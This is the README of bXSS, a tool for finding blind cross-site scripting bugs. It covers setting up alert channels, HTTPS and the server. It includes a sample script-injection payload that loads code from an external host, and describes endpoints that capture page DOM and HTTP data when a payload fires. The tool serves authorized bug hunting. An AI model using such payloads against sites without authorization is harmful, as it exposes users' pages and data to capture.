 # [bXSS](https://github.com/LewisArdern/bXSS)

<a href="https://codeclimate.com/github/LewisArdern/bXSS/maintainability"><img src="https://api.codeclimate.com/v1/badges/a8e30934a0be1952891c/maintainability" /></a>
<a href="https://lgtm.com/projects/g/LewisArdern/bXSS/context:javascript"><img alt="Language grade: JavaScript" src="https://img.shields.io/lgtm/grade/javascript/g/LewisArdern/bXSS.svg?logo=lgtm&logoWidth=18"/></a>

bXSS is a utility which can be used by bug hunters and organizations to identify [Blind Cross-Site Scripting](https://ardern.io/2017/12/10/blind-xss/).

bXSS supports the following:

- [Intrusive Levels](./Images/intrusion.jpg)
- [Email](./Images/email.jpg)
  - [Auto report via /.well-known/security.txt](./Images/securitytxt.jpg)
- [Twilio](./Images/sms.jpg)
- [Slack](./Images/slack.jpg)
- [Webex Teams](./Images/cisco.jpg)
- [Discord](./Images/discord.jpg)
- [Twitter](./Images/twitter.jpg)
- [Payload Generation](./Images/payloads.jpg)
- [Save locally](./Images/file.jpg)

# Requirements

## Necessary

- Server you control
- Usable domain
- Node.js and Express.js

## Optional

- [Gmail](https://gmail.com)
- [Twilio Account](https://www.twilio.com/sms)
- [Slack Token](https://api.slack.com/docs/token-types)
- [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
- [Discord Token](https://github.com/reactiflux/discord-irc/wiki/Creating-a-discord-bot-&-getting-a-token)
- [Twitter Developer Account](https://developer.twitter.com/en/apply/user)
- [SSL/TLS Certificate](https://letsencrypt.org)

# Step-Up

## Default

- cd bXSS && npm install
- Update The Configuration || Environment Variables
  - Domain
    - config.url = Domain intended for use e.g ardern.io
    - config.port.http = Port to run the Node.js app e.g 80
- Rename configExample.js to config.js

## Configuring Services

Services are optional, by default bXSS will save a markdown file to disk. If you don't want to use any service documented below, just delete the service from the config.

- Twilio
  - config.twilio.accountSid = [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
  - config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
  - config.twilio.to = ['+447500000000','+0018056826043'] Your telephone number(s)
  - config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
- Slack
  - config.slack.token = [Slack Token](https://api.slack.com/docs/token-types)
  - config.slack.channel = [Channel you want to send the report to](https://get.slack.help/hc/en-us/articles/201402297-Create-a-channel)
  - Slack permissions required [channels:read](https://api.slack.com/scopes/channels:read) and [chat:write](https://api.slack.com/scopes/chat:write)
- Cisco
  - config.ciscoSpark.token = [Cisco Token](https://developer.webex.com/docs/api/v1/people/get-my-own-details)
  - config.ciscoSpark.sparkRoom = ['email1@domain.com','email2@domain.com']
- Discord
  - Steps to create a bot:
    - Visit https://discordapp.com/developers/applications/
    - Create a new application (e.g bXSSForCompany)
    - Make a note of your CLIENT ID
    - Select 'Bot'
      - Choose a USERNAME and press 'Click to Reveal Token' (copy the token)
    - Visit the following URL (update with your CLIENT ID) https://discordapp.com/oauth2/authorize?&client_id=YOUR_CLIENT_ID&scope=bot&permissions=2048
    - Select the server you want your bot to join and authorize
    - Update the following values below for the bot to post to the 'text channel' e.g ('general')
  - config.discord.token = 'your bot token'
  - config.discord.channel = 'channel you want it to join, e.g general'
- Twitter
  - config.twitter.consumer_key = API Key
  - config.twitter.consumer_secret = API Secret Key
  - config.twitter.access_token_key = Application Access Token
  - config.twitter.access_token_secret = Application Access Token Secret
  - Permissions (Write)
  - config.twitter.recipient_id = Twitter User ID, which can be found [here](https://twitter.com/settings/your_twitter_data)
- Gmail
  - config.gmail.user = Gmail Username
  - config.gmail.pass = Gmail Password
  - config.gmail.to = ['email1@domain.com','email2@domain.com'] Where you want to send the emails
  - config.gmail.from = Who sent the message, usually Gmail Username

## Setting Up HTTPS

Consider using a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv), but if you want to configure HTTPS using express, follow the steps below:

- Obtain a let's Encrypt cert
  - [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
  - [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
- Using Node.js
  - Update Configuration
    - config.letsEncrypt.TLS = true;
    - config.letsEncrypt.publicKey = \$Path/fullchain.pem
    - config.letsEncrypt.privateKey = \$Path/privkey.pem
    - config.letsEncrypt.ca = \$Path/chain.pem

## Starting The Application

Once you have configured the above, simply start the server with any available utility at the application root directory:

- node app.js
- nodemon app.js
- pm2 start app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
```

The application has five core functions to utilize:

- POST - /m (Captures DOM information)
- GET - /m (Loads the payload)
- GET - /mH (Captures HTTP interactions)
- Payloads - /payloads (Gives payloads you can use for testing blind xss)
- Everything else - Loads alert(1)

# Contribute?

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
